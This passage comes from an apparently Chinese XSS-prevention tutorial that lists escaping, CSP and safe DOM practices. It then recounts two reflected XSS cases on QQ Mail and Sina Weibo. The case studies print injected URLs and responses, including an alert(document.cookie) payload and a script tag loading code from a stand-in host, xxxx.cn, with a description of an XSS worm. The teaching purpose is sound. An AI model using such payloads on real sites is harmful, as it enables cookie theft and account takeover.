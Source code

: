 
* **`利用模板引擎`** 
开启模板引擎自带的 HTML 转义功能。例如：
在 ejs 中，尽量使用`<%= data %>`而不是`<%- data %>`；
在 doT.js 中，尽量使用`{{! data }`而不是`{{= data }`；
在 FreeMarker 中，确保引擎版本高于 2.3.24，并且选择正确的`freemarker.core.OutputFormat`。
* **`避免内联事件`** 
尽量不要使用`onLoad="onload('{{data}}')"`、`onClick="go('{{action}}')"`这种拼接内联事件的写法。在 JavaScript 中通过`.addEventlistener()`事件绑定会更安全。
* **`避免拼接 HTML`** 
前端采用拼接 HTML 的方法比较危险，如果框架允许，使用`createElement`、`setAttribute`之类的方法实现。或者采用比较成熟的渲染框架，如 Vue/React 等。
* **`时刻保持警惕`** 
在插入位置为 DOM 属性、链接等位置时，要打起精神，严加防范。
* **`增加攻击难度，降低攻击后果`** 
通过 CSP、输入长度配置、接口安全措施等方法，增加攻击的难度，降低攻击的后果。
* **`主动检测和发现`** 
可使用 XSS 攻击字符串和自动扫描工具寻找潜在的 XSS 漏洞。


## XSS 攻击案例
#### QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

攻击者发现`http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb`这个 URL 的参数`uin`、`domain`未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击：
`http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

```html
<script>
getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```

浏览器接收到响应后就会执行`alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。
#### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现`http://weibo.com/pub/star/g/xyyyd`这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：
`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

浏览器接收到响应后就会加载执行恶意脚本`//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。
## 扩展阅读：Automatic Context-Aware Escaping
